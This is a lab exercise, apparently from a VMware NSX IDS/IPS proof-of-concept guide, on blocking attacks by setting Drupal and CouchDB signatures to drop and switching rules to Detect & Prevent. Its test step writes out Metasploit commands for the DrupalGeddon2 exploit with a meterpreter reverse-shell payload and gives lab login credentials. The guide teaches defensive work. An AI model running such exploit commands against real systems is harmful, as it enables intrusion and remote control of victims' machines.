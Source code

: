 
## 8. Preventing an Attack
**Estimated Time to Complete: 30 minutes**

In this exercise, we will show how the NSX Distributed IDS/IPS can just detect but also prevent an attack. We will run the same attack scenario as before.

**Tune the Web-FrontEnd Profile**

In order to prevent an attack, we need to both change the mode in our IDS/IPS rule(s) to **detect and prevent** and ensure that relevant signature actions are set to either **drop** or **reject**.
The default VMware-recommend signature action can be overrided both at the global level, or within a profile. For the purpose of this lab, we will make the modification within the profile.
Besides changing the signature action, you can also disable signatures as the global or per-profile level, which may be needed in case of false-positives.

1. In the NSX Manager UI, navigate to Security -->  Distributed IDS/IPS --> Profiles
2. Click the 3 dots icon next to the  **Web-FrontEnd** profile and then click **Edit**.
3. Click **Manage signatures for this profile**.
4. In the Filter field, select **Product Affected** and type **drupal_drupal** and click **Apply** to only show the signatures related to Drupal.

![](assets/images/IDPS_POC_56.PNG)

5. You should see a filtered list with 4 signatures (may be different if you have a different signature package version deployed). 
5. For each of the signatures displayed, set the Action to **Drop** or **Reject**. Click **Apply** to confirm.

![](assets/images/IDPS_POC_57.PNG)

6. Click **SAVE** to save the changes to the **Web-FrontEnd** profile.

**Tune the Databases Profile**

Now we will also set the action for signatures related to **CouchDB** in the **Databases** profile to **Drop**.

1. In the NSX Manager UI, navigate to Security -->  Distributed IDS/IPS --> Profiles
2. Click the 3 dots icon next to the  **Databasesprofile** and then click **Edit**.
3. Click **Manage signatures for this profile**.
4. You should see a filtered list with 7 signatures (may be different if you have a different signature package version deployed). 
5. Click the selection box on top to select all signatures.  
6. Click the **ACTION** button on top and choose **Drop** to change the action for all selected signatures to **Drop**. Click **Apply** to confirm.
7. Click **SAVE** to save the changes to the **Databases** profile.

**Change the IDS/IPS Mode to Detect & Prevent**

For each IDS/IPS Rule, you can set the mode to **Detect Only** or **Detect & Prevent**. This mode effecively limits the action that can be taken. When deployed in **Detect Only** mode, the only action that will be taken when a signature is triggerd is an **Alert** will be generated, regardless of the action set for the signature. In **Detect & Prevent** mode on the other hand, the action set on each signature is applied.

1. In the NSX Manager UI, navigate to Security -->  Distributed IDS/IPS --> Rules
2. Click the **>** icon to expand the **NSX IDPS Evaluation** Policy. **ADD POLICY**
3. For both the **App-Tier Policy** and **Web-Tier Policy** rule, change the mode from **Detect Only** to **Detect & Prevent**.

![](assets/images/IDPS_POC_57.PNG)

4. Click **PUBLISH** to commit the changes.

**Open a SSH/Console session to the External VM**
1.	If your computer has access to the IP address you've assigend to the **External VM** (10.114.209.151 in my example), open your ssh client and initiate a session to it. Login with the below credentials. 
    * Username **vmware**
    * Password **VMware1!**
2. **Alternatively**, if your computer does not have access to the **External VM** directly, you can access the VM console from the  physical environment vCenter Web-UI. 

**Initiate DrupalGeddon2 attack against the App1-WEB-TIER VM (again)**
1.	Type **sudo msfconsole** to launch **Metasploit**. Enter **VMware1!** if prompted for a password. Follow the below steps to initiate the exploit. Hit **enter** between every step. 
    * Type **use exploit/unix/webapp/drupal_drupalgeddon2** to select the drupalgeddon2 exploit module
    * Type **set RHOST 192.168.10.101** to define the IP address of the victim to attack. The IP address should match the IP address of **App1-WEB-TIER VM**
    * Type **set RPORT 8080** to define the port the vulnerable Drupal service runs on. 
    * Type **exploit** to initiate the exploit, esbalish a reverse shell
    
2.	Confirm that as a **detect & prevent** policy is applied to the WEB-TIER VMs, the exploit attempt was prevented and no meterpreter session was established. Because the initial exploit was not successful, lateral movement to the iternal segment is also prevented.

```console
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > use exploit/unix/webapp/drupal_drupalgeddon2
[*] Using configured payload php/meterpreter/reverse_tcp
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > set RHOST 192.168.10.101
RHOST => 192.168.10.101
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > set RPORT 8080
RPORT => 8080
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > exploit

[*] Started reverse TCP handler on 10.114.209.151:4444
[*] Exploit completed, but no session was created.
msf5 exploit(unix/webapp/drupal_drupalgeddon2) >

```
**Confirm IDS/IPS Events show up in the NSX Manager UI**
1.	In the NSX Manager UI, navigate to Security -->  Security Overview
2. Under the **Insights** tab, confirm you see a number of attempted intrusion against the  **APP-1-WEB-TIER** workload
![](assets/images/IDPS_POC_61.PNG)
3. Navigate to Security --> East West Security --> Distributed IDS
4. Confirm 2 signatures have fired:
    * Signature for **DrupalGeddon2**, with **APP-1-WEB-TIER** as Affected VM
    * Signature for **Remote Code execution via a PHP script**, with **APP-1-WEB-TIER** as Affected VM
    
    ![](assets/images/IDPS_POC_59.PNG)

5. Now you can drill down into these events. Click the **>** symbol to the left of the **ET WEB_SPECIFIC_APPS [PT OPEN] Drupalgeddon2 <8.3.9 <8.4.6 <8.5.1 RCE Through Registration Form (CVE-2018-7600)** event near the bottom of the table to expand this event. 
    * Confirm that the IP addresses of the attacker and victim match with the **External VM** and **APP-1-WEB-TIER VM** respectlively.
    * click the **green bar (Prevented)** to see details about the exploit attempts. You may see multiple attemts (from different ports) as Metasploit initiated multiple connections

  ![](assets/images/IDPS_POC_60.PNG)

You have now successfully prevented the initial exploit and further lateral movement.
This completes this exercise and the lab. You may continue with some optional exercises. 

This completes this exercise and the lab. You may continue with some optional exercises or read the conclusion (see below links)  

Before moving to the next exercise, folow [these instructions](ClearingIDSEvents.md) to clear the IDS events from NSX Manager

---

[***Next Step : (Optional) 9. Logging to an external collector***](9-Logging.md)

[***Next Step : (Optional) 10. Segmenting the Environment***](10-Segmentation.md)

[***Next Step : 11. Conclusion***](11-Conclusion.md)
 

